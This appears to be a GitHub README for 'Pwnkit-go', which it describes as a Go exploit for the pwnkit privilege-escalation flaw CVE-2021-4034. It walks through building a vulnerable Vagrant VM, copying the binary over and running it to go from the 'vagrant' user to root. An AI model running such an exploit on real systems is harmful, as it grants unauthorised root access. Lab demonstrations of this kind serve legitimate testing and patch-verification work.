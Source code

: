 ### Pwnkit-go

This is a working exploit for the pwnkit vulnerability, CVE-2021-4034, written in Go

Give it a try:

```sh
# create a vulnerable vagrant machine
$ make vm
...

# build the binary and scp it to the vagrant box
$ make scp

# ssh onto the vagrant box
$ make ssh

# The default user is "vagrant"
vagrant@ubuntu-focal:/tmp$ whoami
vagrant

# execute exploit
vagrant@ubuntu-focal:/tmp$ cd /tmp && ./pwnkit-go
$ whoami
root
```
